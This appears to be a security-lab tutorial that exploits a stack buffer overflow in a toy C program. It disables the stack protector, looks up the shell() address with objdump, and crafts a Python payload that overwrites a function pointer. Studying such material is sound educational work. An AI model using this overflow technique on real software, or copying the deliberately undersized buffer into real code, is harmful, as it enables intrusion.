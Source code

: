 # Buffer Overflow Attack on `bof3.c`

```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

void shell()
{
    printf("You made it! The shell() function is executed\n");
}

void sup()
{
    printf("Congrat!\n");
}

void main()
{
    int var;
    void (*func)() = sup;
    char buf[128];
    fgets(buf, 133, stdin);
    func();
}
```

This program has a vulnerability similar to the previous example in `bof2.c`. Although it uses `fgets()` to limit input size, the input limit (133 characters) exceeds the size of the `buf[128]` buffer, making it vulnerable to a buffer overflow attack.

The target is to exploit this vulnerability by modifying the `func` pointer, which initially points to the `sup()` function, to instead point to the `shell()` function.

## Compiling the Program

As with previous examples ([bof1.c](./bof1.md) and [bof2.c](./bof2.md)), we compile the source code using `-fno-stack-protector` to disable the stack protector, which prevents stack overflows from being detected at runtime.

```bash
gcc -g bof3.c -o bof3.o -fno-stack-protector -mpreferred-stack-boundary=2
```

A new executable file, `bof3.o`, is created.

## Stack Frame of `main()` Function

Here’s the stack frame in the `main()` function, with `buf[128]` and the function pointer `func`:

![main() stack frame](./img/bof3/stackframe.png)

## Finding the Address of the `shell()` Function

In order to redirect execution to `shell()`, we first need to find its address. We can do this using the `objdump` command.

```bash
objdump -d bof3.o | grep shell
```

### Result

![address of shell()](./img/bof3/objdump.png)
The address of the `shell()` function is `0x0804845b`. We will input this address in reverse order as `5b 84 04 08` (Little Endian format).

After our attack, the stack frame will look like this:

![new stack frame](./img/bof3/new_stackframe.png)

The value of the function pointer `*func` should now be `0x0804845b`, pointing to `shell()`.

## Crafting the Input for the Attack

To exploit this vulnerability, we need to:

1. Fill the buffer `buf[128]` with 128 characters.
2. Overwrite the address stored in `*func` with the address of `shell()` (`0x0804845b`).

We can use Python to craft the input:

```bash
echo $(python -c "print('a' * 128 + '\x5b\x84\x04\x08')")
```

### Explanation:

-   `'a' * 128`: Fills the `buf[128]` buffer.
-   `'\x5b\x84\x04\x08'`: The Little Endian representation of the `shell()` function's address, overwriting the `func` pointer.

### Injecting the Payload

We will pipe the crafted input into the program:

```bash
echo $(python -c "print('a' * 128 + '\x5b\x84\x04\x08')") | ./bof3.o
```

### Result:

![Result](./img/bof3/result.png)

The message confirms that we successfully redirected execution to the `shell()` function, demonstrating a successful buffer overflow attack.
